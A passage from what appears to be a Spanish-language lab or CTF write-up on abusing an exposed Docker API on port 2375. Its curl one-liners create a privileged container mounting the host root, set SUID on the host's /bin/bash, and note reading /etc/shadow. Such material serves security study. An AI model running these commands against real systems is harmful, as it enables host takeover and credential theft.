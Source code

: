 ![[dbo 17.png]]

Lo de ``-insecure`` no va a hacer falta porque estamos haciendo todo por **HTTP**

Modificamos el Oneliner colocando la **IP de la máquina Host con el puerto 2375** y el nombre de la imagen "*ubuntu:latest*", que en este caso nosotros sabemos el nombre de la imagen pero en otros casos que no sepamos podríamos hacer esto:

- ``curl -X GET http://172.17.0.1:2375/containers/json | jq`` para listar información de los contenedores.
-  ``curl -X GET http://172.17.0.1:2375/images/json | jq`` para listar información de las imágenes

Todo esto está indicado en **Hacktricks**.

------

Siguiendo el orden que nos brinda la web de **Hacktricks** haremos lo siguiente.

El siguiente comando **montará una imagen en Docker en la máquina Host**, este nos dará un **ID** que debemos **copiar**

- ``curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/create?name=test -d '{"Image":"ubuntu:latest", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'``

En el siguiente comando debemos reemplazar luego del ``/containers/`` el **ID del comando anterior**, este nos va a **desplegar un contenedor** a través del abuso de la API.

- ``curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/3b138a30fed1a6f6b9c4f1cf659f63239677a2e608957483a75026ea2e5a5b85/start?name=test``

El siguiente comando **ejecutará el comando que coloquemos** al final del one-liner a través del contenedor, en mi caso hará un ``chmod u+x /mnt/bin/bash``, pero todavía **no será ejecutado**, ya que nos dará otro **ID** que **debemos copiar**.

- ``curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/3b138a30fed1a6f6b9c4f1cf659f63239677a2e608957483a75026ea2e5a5b85/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]}'``

Por ultimo haremos un ``curl`` que **ejecutará** el comando malicioso que colocamos en el **one-liner anterior**, recordemos que debemos colocar el **nuevo ID** que nos brindó el comando anterior.

- ``curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/exec/17c0096558d603d6e1a6a21057c479ddb09749c59a68ecefddf137600e9580be/start -d '{}'``

Gracias a esto colocaremos el binario ``/bin/bash`` en la máquina Host con permisos **SUID**, siendo así vulnerable a la escalada de privilegios.

![[dbo 18.png]]

Si en otro caso simplemente quisieramos hacer un ``cat /etc/shadow`` por ejemplo, para ver el **output** en el ultimo comando deberíamos agregar al final este parámetro ``--output -`` y nos aparecería el contenido.

----





